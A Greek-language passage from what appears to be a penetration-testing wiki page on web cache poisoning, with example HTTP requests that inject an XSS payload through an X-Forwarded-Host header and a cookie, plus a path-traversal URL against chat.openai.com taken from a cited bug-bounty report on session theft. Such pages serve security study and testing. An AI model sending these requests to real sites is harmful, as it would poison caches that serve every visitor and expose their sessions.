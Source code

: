 ### Ευκολότερο παράδειγμα

Μια κεφαλίδα όπως το `X-Forwarded-For` αντικατοπτρίζεται στην απάντηση χωρίς καθαρισμό.\
Μπορείτε να στείλετε ένα βασικό payload XSS και να δηλητηριάσετε την cache ώστε όλοι όσοι έχουν πρόσβαση στη σελίδα να υποστούν XSS:
```markup
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```
_Σημειώστε ότι αυτό θα δηλητηριάσει ένα αίτημα προς `/en?region=uk` και όχι προς `/en`_

### Δηλητηρίαση cache για DoS

{% content-ref url="cache-poisoning-to-dos.md" %}
[cache-poisoning-to-dos.md](cache-poisoning-to-dos.md)
{% endcontent-ref %}

### Χρησιμοποιώντας τη δηλητηρίαση web cache για να εκμεταλλευτείτε ευπάθειες διαχείρισης cookies

Τα cookies θα μπορούσαν επίσης να ανακλώνται στην απόκριση μιας σελίδας. Εάν μπορείτε να το εκμεταλλευτείτε για να προκαλέσετε XSS, για παράδειγμα, θα μπορούσατε να είστε σε θέση να εκμεταλλευτείτε XSS σε αρκετούς πελάτες που φορτώνουν την κακόβουλη απόκριση cache.
```markup
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```
Σημειώστε ότι αν το ευάλωτο cookie χρησιμοποιείται πολύ από τους χρήστες, οι κανονικές αιτήσεις θα καθαρίζουν την cache.

### Δημιουργία διαφορών με διαχωριστικά, κανονικοποίηση και τελείες <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Ελέγξτε:

{% content-ref url="cache-poisoning-via-url-discrepancies.md" %}
[cache-poisoning-via-url-discrepancies.md](cache-poisoning-via-url-discrepancies.md)
{% endcontent-ref %}

### Δηλητηρίαση cache με διαδρομή traversal για κλοπή API key <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

[**Αυτή η αναφορά εξηγεί**](https://nokline.github.io/bugbounty/2024/02/04/ChatGPT-ATO.html) πώς ήταν δυνατό να κλαπεί ένα OpenAI API key με μια διεύθυνση URL όπως `https://chat.openai.com/share/%2F..%2Fapi/auth/session?cachebuster=123` επειδή οτιδήποτε ταιριάζει με `/share/*` θα αποθηκευτεί στην cache χωρίς να κανονικοποιηθεί η διεύθυνση URL από το Cloudflare, κάτι που έγινε όταν η αίτηση έφτασε στον web server.
